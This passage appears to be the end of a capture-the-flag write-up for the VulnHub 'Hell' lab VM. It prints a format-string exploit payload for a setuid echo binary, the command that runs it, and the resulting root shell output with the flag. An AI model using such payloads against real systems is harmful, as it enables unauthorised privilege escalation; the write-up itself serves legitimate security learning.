 ```


I spent a lot of time staring at segfault after segfault until I stumbled upon this random combination of characters (I really really want to explain how I worked it out, but I'm not 100% sure myself. I guess that's a follow up post sometime. Also, it is possible this wont work for you).

[plain]
$(python -c 'print "\x14\x96\x0c\x08" + "\x16\x96\x0c\x08"')AAAB%49139u%118\$hn%15217c%117\$hn
```


Which when executed like this


``` bash

$ /home/oj/echo $(python -c 'print "\x14\x96\x0c\x08" + "\x16\x96\x0c\x08"')AAAB%49139u%118\$hn%15217c%117\$hn
```


dropped me to a shell.


``` bash

# id 
uid=0(root) gid=1005(oj) groups=0(root),1005(oj) 
# whoami 
root 
# cat /root/flag.txt 
Congratulations of beating Hell. 

I hope you enjoyed it and there weren't to many trolls in here for you. 

Hit me up on irc.freenode.net in #vulnhub with your thoughts (Peleus) or follow me on twitter @0x42424242 

Flag: a95fc0742092c50579afae5965a9787c54f1c641663def1697f394350d03e5a53420635c54fffc47476980343ab99951018fa6f71f030b9986c8ecbfc3a3d5de 


# 
```


![](http://30.media.tumblr.com/tumblr_lk4maa7rMH1qfgrblo1_500.gif)



Like a baws.  Now I'm going to exorcise the VM and purge every last shred of it from my SSD.  BEGONE FOUL DEMON !
